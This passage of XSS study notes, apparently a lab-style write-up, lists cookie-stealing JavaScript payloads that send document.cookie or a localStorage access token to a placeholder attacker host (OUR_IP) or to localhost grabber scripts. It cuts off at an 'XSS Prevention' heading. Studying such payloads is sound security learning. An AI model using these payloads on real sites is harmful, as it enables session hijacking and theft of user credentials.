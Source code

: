     There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
    
    Code: javascript
    
    ```
    document.location='http://OUR_IP/index.php?c='+document.cookie;
    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
    ```
    
    or we can use it from the payloadsallthethings but rember to change the link to be http://OUR_IP/index.php?c=
    
    ```
    <script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
    <script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
    <script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
    <script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
    ```
    
      
    

## XSS Prevention: